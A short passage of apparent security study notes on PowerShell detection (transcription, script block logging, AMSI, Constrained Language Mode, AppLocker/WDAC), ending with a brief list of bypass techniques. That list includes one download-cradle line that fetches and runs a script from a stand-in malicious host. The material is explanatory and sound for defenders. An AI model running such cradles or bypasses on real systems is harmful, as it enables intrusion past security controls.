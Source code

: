 # 2.2 - Security and Detection

**owerShell Detection Mechanisms**

Detection mechanisms are essential for monitoring, analyzing, and mitigating potential abuse of PowerShell in enterprise environments, these are the main tipologies:

### **System-wide Transcription**

PowerShell can record all input and output from scripts, commands, and activities across the system. This logging includes user actions, script content, and error messages, offering comprehensive auditing. It is enabled via group policies and stores logs in specified file locations.

### **Script Block Logging**

This feature captures and logs the content of executed PowerShell script blocks. It provides visibility into both legitimate and malicious PowerShell activities, even for dynamically generated or obfuscated scripts. Logs are stored in the Windows Event Log under the PowerShell Operational log.

### **Anti-Malware Scan Interface (AMSI)**

AMSI integrates with antivirus software to scan PowerShell scripts and commands at runtime. It detects and blocks malicious activities, even those using obfuscation or encoded payloads. AMSI is widely adopted for enhancing script-level security.

### **Constrained Language Mode (CLM)**

CLM restricts the commands and features available in PowerShell to reduce abuse by attackers. It limits access to .NET classes, COM objects, and other advanced scripting functionalities. CLM is enforced automatically for untrusted scripts or when integrated with security tools like AppLocker and WDAC.

### **Integration with AppLocker and WDAC (Device Guard)**

CLM works seamlessly with AppLocker and Windows Defender Application Control (WDAC). These tools enforce policies that determine which scripts and executables can run, adding an extra layer of security. Together, they prevent unauthorized or malicious PowerShell execution.

## **Bypassing Security Features**

1. **Obfuscation**: Using tools like `Invoke-Obfuscation` to encode or disguise scripts.
   *   Example:

       ```powershell
       IEX (New-Object Net.WebClient).DownloadString('http://malicious.url/script.ps1')
       ```
2. **In-Memory Execution**: Running scripts without saving to disk, reducing artifact traces.
3. **Download Cradles**: Fetching payloads directly from a remote server.

### **Execution Policy**

Execution policy isn't a security measure and it is present to prevent user from accidently executing scripts.
